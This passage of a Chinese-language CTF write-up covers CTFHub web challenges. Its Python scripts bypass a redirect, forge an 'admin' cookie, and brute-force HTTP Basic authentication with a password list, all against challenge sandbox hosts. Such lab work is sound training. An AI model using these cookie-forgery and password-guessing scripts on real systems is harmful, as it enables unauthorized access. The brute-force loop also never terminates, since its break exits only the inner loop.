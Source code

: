 chrome抓包发现对index.php的请求302到了index.html~

利用python访问url并禁止跳转

```python
import requests

url = "http://challenge-2d971fb5ad995d8f.sandbox.ctfhub.com:10800/index.php"
req = requests.get(url=url, allow_redirects=False)
print(req.text)
```

# Cookie

## 题目

Cookie欺骗、认证、伪造<br>以及url

## 解题过程

访问url，提示：

> hello guest. only admin can get flag.

查看请求头，发现`Cookie: admin:0`,故而应该是请求时传入cookies

```python
import requests

url = "http://challenge-1ff467c75ff8e3e2.sandbox.ctfhub.com:10800"
req = requests.get(url=url, cookies={'admin':'1'})
print(req.text)
```

即可获得flag

# 基础认证

## 题目

在HTTP中，基本认证（英语：Basic access authentication）是允许http用户代理（如：网页浏览器）在请求时，提供 用户名 和 密码 的一种方式。详情请查看 https://zh.wikipedia.org/wiki/HTTP基本认证<br>常规给出url<br>一个录有100个密码的密码本

## 解题过程

通过终端`curl -v [url]`得到：

<img src="https://tvax4.sinaimg.cn/large/007Z9xVHgy1h7b143s60vj31dd0ql7wh.jpg" alt="http基本认证" width="1777" data-width="1777" data-height="957">

`www-authenticate` 那一行提示到用户名可能是 `admin`

写一个py遍历一下密码本：
```python
import requests

url = "http://challenge-153f9b191245ba0f.sandbox.ctfhub.com:10800/flag.html"
while (1):
    with open("10_million_password_list_top_100.txt", "r",
              encoding="utf-8") as f:
        for pwd in f.readlines():
            print(pwd.strip())
            req = requests.get(url, auth=('admin', pwd.strip()))
            if req.status_code != 401:
                print(req.text)
                break
```